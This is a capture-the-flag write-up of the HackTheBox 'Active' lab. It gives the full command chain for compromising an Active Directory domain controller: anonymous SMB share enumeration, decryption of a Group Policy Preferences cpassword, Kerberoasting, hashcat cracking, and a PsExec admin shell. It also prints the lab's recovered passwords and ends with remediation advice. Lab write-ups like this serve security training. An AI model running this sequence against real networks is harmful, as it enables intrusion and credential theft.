










# HackTheBox - Active


## Overview

- Difficulty: Easy
- Platform: Active Directory
- Skills Demonstrated: Active Directory, SMB Enumeration, Credential Discovery, Kerberoasting, Password Decryption, Remote Service Execution

## Methodology 

The assessment followed a standard attack methodology:

1. Enumeration
2. Vulnerability Identification
3. Initial Access
4. Privilege Escalation
5. Post Exploitation
---

## Enumeration 

A network port scan was performed to identify accessible ports and services on the target host 
```
nmap 10.129.6.90 -sCV -A -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-30 12:14 BST
Nmap scan report for 10.129.6.90
Host is up (0.018s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-30 11:14:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
...
```
Key Findings:
- The target is likely a Windows Active Directory Domain Controller based on the exposed services; Kerberos (88), LDAP (389) and DNS (53)
- Port 135 - RPC is open
- Port 445 - SMB is open

Initial enumeration was focused on port 445 as vulnerable SMB shares can often lead to exposed sensitive information, or misconfigured network shares and can provide direct pathways to initial access.


SMB enumeration was performed using the Linux tool Enum4Linux, to extract service information regarding; shares, users and group listings. 
```
enum4linux 10.129.6.90
```



The Enum4Linux scan revealed multiple shares including non-default shares such as `Replication` and `Users`.
The non-default shares were prioritized as they present a high probability of sensitive information exposure, further enumeration into the shares was carried out by determining if unauthenticated anonymous access was permitted
```
smbclient -L 10.129.6.90 -p 445
```



## Credential Discovery

Once unauthenticated access was confirmed, the spider_plus module from NetExec was used to perform deeper automated mapping of SMB file shares, crawling accessible directories to identify potentially sensitive files.
```
netexec smb 10.129.6.90 -u '' -p '' --spider_plus
```



The output was saved to `/home/kali/.nxc/modules/nxc_spider_plus/10.129.6.90.json`. Examination of the saved output revealed an interesting file called `Groups.xml` in the `Replication` share.



`smbclient` was used to retrieve the file from the SMB share
```
smbclient //10.129.6.90/Replication -p 445
```
```
get active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
```



Analysis of the retrieved file revealed a username and an associated `cpassword` value. This value indicates credentials stored via Group Policy Preferences (GPP). The decryption key for `cpassword` values has been publicly document by Microsoft and can be used to recover the stored credentials. The `gpp-decrypt` utility can be used to decrypt the password.
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```



The recovered credentials were then validated using Netexec against the SMB service. Upon confirmation that the credentials were valid, a Kerberoasting attack was performed to target service account SPNs within the Active Directory environment.
```
netexec smb 10.129.6.90 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

## Exploitation

Kerberoasting is an Active Directory post-authentication attack that requires valid domain credentials. This technique targets service accounts configured with Service Principal Names (SPNs). It abuses the Kerberos authentication protocol to request tickets by any authenticated domain user. 
A requested ticket is encrypted by using the password hash of the service account. Once these tickets are obtained by the attacker they can be taken offline for password cracking by using brute-force or dictionary attacks.
If the service account targeted has elevated privileges, this can lead to privilege escalation.
```
impacket-GetUserSPNs -dc-ip 10.129.6.90 active.htb/SVC_TGS -request
```



Utilizing the `Impacket-GetUserSPNs` tool revealed the SPN entry for the Administrator account. This extracted TGS hash was saved locally to be taken offline for password cracking
using the tool `Hashcat`.

```
hashcat -m 13100 administrator.hash /usr/share/wordlists/rockyou.txt
```



The hash was successfully cracked, revealing the plaintext password `Ticketmaster1968`.

Netexec was used again to validate the new set of credentials 
```
netexec smb 10.129.6.90 -u 'Administrator' -p 'Ticketmaster1968'
```



Following successful authentication as the `Administrator` account, a privileged user, `Impacket-Psexec` was used to execute commands remotely and obtain an interactive shell with administrative privileges. 
```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.6.90 cmd.exe
```



## Conclusion

The domain controller was fully compromised through a chain of misconfigurations and weak credential handling. Initial access was achieved via exposed SMB shares, leading to the discovery of credentials stored in a Group Policy Preferences (GPP) file. Further exploitation via Kerberoasting allowed the extraction and offline cracking of service account credentials. The recovered credentials were then used to obtain remote code execution via PsExec, resulting in full administrative control of the domain controller. As this is a domain controller, compromise of this host could lead to full domain-level access in a real-world environment.

## Lessons Learned

This assessment demonstrated how weak SMB permissions and credential storage can lead to initial compromise in Active Directory environments. It also highlighted how Kerberoasting can be used to escalate from authenticated domain credentials to privileged account exploitation through offline password cracking. Overall, it demonstrated how exposure of sensitive information can ultimately result in full administrative control of a domain controller and potentially an entire Active Directory domain.

## Remediation

To mitigate the vulnerabilities identified in this assessment, the following actions should be taken:

- Restrict SMB share permissions and remove anonymous access to sensitive shares such as SYSVOL, NETLOGON, and other domain-related directories
- Eliminate legacy Group Policy Preferences (GPP) credential storage and ensure all cpassword values are fully removed from the domain
- Enforce strong, unique passwords for service accounts, particularly those with SPNs, to reduce the risk of Kerberoasting attacks
- Implement least privilege principles
- Conduct regular Active Directory security audits and ensure timely patching of domain infrastructure

